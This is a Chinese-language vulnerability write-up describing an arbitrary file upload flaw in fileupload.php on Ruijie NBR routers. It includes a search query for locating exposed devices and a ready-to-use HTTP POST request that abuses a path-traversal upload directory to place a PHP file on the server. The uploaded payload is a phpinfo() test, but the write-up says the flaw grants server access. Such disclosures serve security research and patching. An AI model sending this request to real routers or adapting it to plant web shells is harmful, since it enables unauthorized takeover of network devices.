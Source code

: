 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

<a-checkbox checked>锐捷 NBR 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-NBR路由器"</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1647768741978-90d9f47d-e003-4565-9153-9ccd7fbda5cc.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![img](../../../.vuepress/public/img/1647768806049-76ae4f06-3df1-43cc-9154-2dfffafddcaf.png)

文件名及目录均可控，导致可以任意上传文件

```php
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](../../../.vuepress/public/img/1647768840891-cb2de5f0-98bb-40e0-9b9e-bcf348864f85.png)

访问上传的文件目录

![img](../../../.vuepress/public/img/1647768865012-128cd155-75d0-4e94-a1fc-dbed5df6f8dc.png)